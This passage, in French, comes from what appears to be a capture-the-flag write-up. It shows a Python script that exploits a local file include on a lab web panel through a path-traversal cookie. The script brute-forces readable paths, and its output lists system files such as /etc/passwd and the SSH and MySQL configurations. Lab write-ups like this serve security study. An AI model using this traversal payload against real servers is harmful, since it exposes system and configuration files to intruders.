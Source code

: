 On peut donc naviguer dans l'arborescence. Qui plus est, on a obtenu des usernames supplémentaires (mais les scripts de brute-force ne donnent rien de plus pour autant).  

Je réutilise la technique d'énumération via `include()` employée sur le [LAMPSecurity CTF4]({% link _posts/2014-07-08-Solution-du-CTF-LAMPSecurity-CTF4.md %}), en adaptant le script au point d'injection :  

```python
import requests

fd = open("logs.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get("http://192.168.1.29/super_secret_login_path_muhahaha/panel.php",
            headers={"cookie": "intruder=....//....//....//....//....//....//....//..../{0};".format(word)},
            allow_redirects=False)

    if int(r.headers['content-length']) != 239:
        print "Contenu trouve avec", word

fd.close()
```

Ce qui donne :  

```
Contenu trouve avec /var/log/lastlog
Contenu trouve avec /var/log/wtmp
Contenu trouve avec /var/run/utmp
Contenu trouve avec /etc/passwd
Contenu trouve avec /etc/group
Contenu trouve avec /etc/hosts
Contenu trouve avec /etc/motd
Contenu trouve avec /etc/issue
Contenu trouve avec /etc/crontab
Contenu trouve avec /etc/inittab
Contenu trouve avec /proc/version
Contenu trouve avec /proc/cmdline
Contenu trouve avec /etc/apache2/apache2.conf
Contenu trouve avec /etc/apache2/sites-enabled/000-default
Contenu trouve avec /etc/apache2/sites-available/default
Contenu trouve avec /etc/ssh/sshd_config
Contenu trouve avec /etc/mysql/my.cnf
Contenu trouve avec /etc/php5/apache2/php.ini
Contenu trouve avec /var/log/faillog
```

Pas d'accès à des logs *Apache*... Comment transformer notre faille include en RCE (remote code execution) ?  
